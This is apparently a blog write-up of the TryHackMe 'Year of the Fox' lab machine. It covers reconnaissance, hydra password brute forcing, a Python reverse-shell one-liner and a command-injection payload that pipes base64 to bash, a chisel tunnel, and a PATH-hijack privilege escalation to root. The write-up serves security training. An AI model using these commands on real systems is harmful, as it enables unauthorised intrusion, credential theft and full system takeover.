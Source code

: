 ```yaml
---
title : "Year Of The Fox - Write Up"
date : 2021-10-17T12:39:31+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's hard level machine."
tags : ["hydra","RCE","chisel","PATH","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/yotf)  | Hard  |  [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle)  |

## Reconn

Let's start with a normal `nmap` scan.

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.174.23 -p- -sS --min-rate 5000 -n -Pn                                                                                                ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 12:33 CEST
Nmap scan report for 10.10.174.23
Host is up (0.083s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 24.37 seconds
```
Great! We have a web server and a microsoft-ds service running!

Let's scan the file sharing server with `enum4linux`.

```bash
╰─ lanfran@parrot ❯ enum4linux 10.10.174.23                                                                                                                           ─╯
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Oct 17 12:34:44 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.174.23
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==================================================== 
|    Enumerating Workgroup/Domain on 10.10.174.23    |
 ==================================================== 
[...]
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)
[...]
```
Woho! More information! We have 2 users now:
	`Fox`
	`Rascal`

So let's go to the web server now.

## Foothold - User

![login](login.png)

Ups, it's requesting us a password and an user, maybe we can bruteforce it with `hydra` and the users that we found before...
```bash
╰─ lanfran@parrot ❯ hydra -l rascal -P /usr/share/wordlists/rockyou.txt -u  -s 80  10.10.174.23 http-head /                                                              ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 12:38:59
[WARNING] http-head auth does not work with every server, better use http-get
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-head://10.10.174.23:80/
[STATUS] 3492.00 tries/min, 3492 tries in 00:01h, 14340907 to do in 68:27h, 16 active
[80][http-head] host: 10.10.174.23   login: rascal   password: marinel
```
Yes! It worked! We can now login to the page and see what's inside _(BTW, I'm not removing the cracked password because this machine changes the password in every reboot...)_

![loged](loged.png)

Mmmm... A simple page with an input...


After a lot of reserching, we can get a reverse shell from there with this exploit:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_ip",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 

-----

"\";echo "paste your base64 encoded payload here" | base64 -d | bash;\""
```
Run it with `Burp Suite` or even with `cURL`.

![exploited](exploit.png)

And we are in, we now can read the web flag!
```bash
www-data@year-of-the-fox:/var/www$ cat web-flag.txt 
THM{[REDACTED]}
```
Digging around, I found that the port `22` is open and listening but just in for the local machine, so we have to create a tunnel and we can bruteforce it!
```bash
$ netstat -tulwn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN     
tcp6       0      0 :::139                  :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::445                  :::*                    LISTEN     
udp        0      0 10.10.255.255:137       0.0.0.0:*                          
udp        0      0 10.10.174.23:137        0.0.0.0:*                          
udp        0      0 0.0.0.0:137             0.0.0.0:*                          
udp        0      0 10.10.255.255:138       0.0.0.0:*                          
udp        0      0 10.10.174.23:138        0.0.0.0:*                          
udp        0      0 0.0.0.0:138             0.0.0.0:*                          
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 10.10.174.23:68         0.0.0.0:*                          
raw6       0      0 :::58                   :::*                    7          
$ 
```
Let's create the tunnel now with `chisel`. _Please note that chisel isn't installed on the machine, so I had to upload an static binary._
```bash
[Attacker Machine]

╰─ lanfran@parrot ❯ ./chisel server -p 4444 --reverse &                                                                                                                 ─╯
[1] 1717758
2021/10/17 12:56:35 server: Reverse tunnelling enabled                                                                                                                     
2021/10/17 12:56:35 server: Fingerprint V4me3/cc0B0GtMPIyoYclwAhXCzh24uFYKuxh3M+jcY=
2021/10/17 12:56:35 server: Listening on http://0.0.0.0:4444

--------
[Victim Machine]

www-data@year-of-the-fox:/tmp$ ./chisel client 10.9.4.36:4444 R:2222:127.0.0.1:22
2021/10/17 11:58:01 client: Connecting to ws://10.9.4.36:4444
2021/10/17 11:58:01 client: Connected (Latency 54.77722ms)
```
Great, since now we can see the `22` open port on the machine, on our local port `2222`, let's brute force with the user `fox`.

```bash
╰─ lanfran@parrot ❯ hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -s 2222 127.0.0.1 ssh                                                                           ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 12:57:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344223 to do in 1350:41h, 16 active
[2222][ssh] host: 127.0.0.1   login: fox   password: roberto
```
Great! we have the password, let's now login via `ssh` and read the user's flag.

```bash
╰─ lanfran@parrot ❯ ssh -p 2222 fox@localhost                                                                                                                           ─╯
fox@localhost's password: 


	__   __                       __   _   _            _____         
	\ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  ___|____  __
	 \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_ / _ \ \/ /
	  | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  _| (_) >  < 
	  |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|  \___/_/\_\


                                                                  
fox@year-of-the-fox:~$ cat user-flag.txt 
THM{[REDACTED]}
fox@year-of-the-fox:~$ 
```
## Root

To escalate to root, we will need to find a way to exploit a binary, that we can run with sudo.
```bash
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```
A few things going on here. The `secure_path` isn't set, and we have a binary, that after doing a little reversing, we can see that is using another binary, `poweroff`.
```bash
╰─ lanfran@parrot ❯ strings shutdown                                                                                                                                                                    ─╯
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
poweroff.  <------- HERE
```
So, to recap, we can create a malicious binary to act as `poweroff` and set the `$PATH` to our current working directory. So let's do it!
```bash
fox@year-of-the-fox:/tmp$ cp /bin/bash poweroff
fox@year-of-the-fox:/tmp$ sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown
root@year-of-the-fox:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
And we got it! 
Now for the remaining root's flag, let's read the file that's on `/home/rascal/` and remove all the break lines.
```bash
root@year-of-the-fox:/tmp# ls -la /home/rascal/
total 24
drwxr-x--- 2 rascal rascal 4096 Jun  1  2020 .
drwxr-xr-x 4 root   root   4096 May 28  2020 ..
lrwxrwxrwx 1 root   root      9 May 28  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rascal rascal  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 rascal rascal 3771 Apr  4  2018 .bashrc
-r-------- 1 rascal root    158 Jun  9  2020 .did-you-think-I-was-useless.root
-rw-r--r-- 1 rascal rascal  807 Apr  4  2018 .profile
root@year-of-the-fox:/tmp# cat /home/rascal/.did-you-think-I-was-useless.root | tr -d '\n'
THM{[REDACTED]]}Here's the prize:YTAyNzQ3ODZlMmE2MjcwNzg2NjZkNjQ2Nzc5NzA0NjY2Njc2NjY4M2I2OTMyMzIzNTNhNjk2ODMwMwo=Good luck!
```

And we rooted the machine!

That's all from my side, hope you find this helpful!